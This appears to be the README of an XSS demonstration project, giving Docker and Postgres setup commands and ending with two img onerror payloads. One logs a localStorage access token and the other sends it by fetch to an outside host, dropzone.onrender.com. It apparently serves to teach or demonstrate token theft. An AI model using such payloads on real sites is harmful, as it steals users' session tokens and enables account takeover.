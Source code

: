 # Setup

```sh
sudo docker run --name xss-demo-target-db -p 4242:5432 -e POSTGRES_PASSWORD=1234 -d postgres:latest
sudo docker exec -it xss-demo-target-db psql -U postgres
CREATE DATABASE target;
cat db.sql | sudo docker exec -i xss-demo-target-db psql -U postgres target
```

Add this to `.env`:

```
PGCONNECTION=postgres://postgres:1234@localhost:4242/target
```

PGPASSWORD=1234 psql -h frankfurt-postgres.render.com -U target target -f db.sql

```html
<img src="" onerror="console.log(localStorage.getItem('accessToken'))" >
<img src="" onerror="fetch('https://dropzone.onrender.com/?q='+localStorage.getItem('accessToken'))" >
```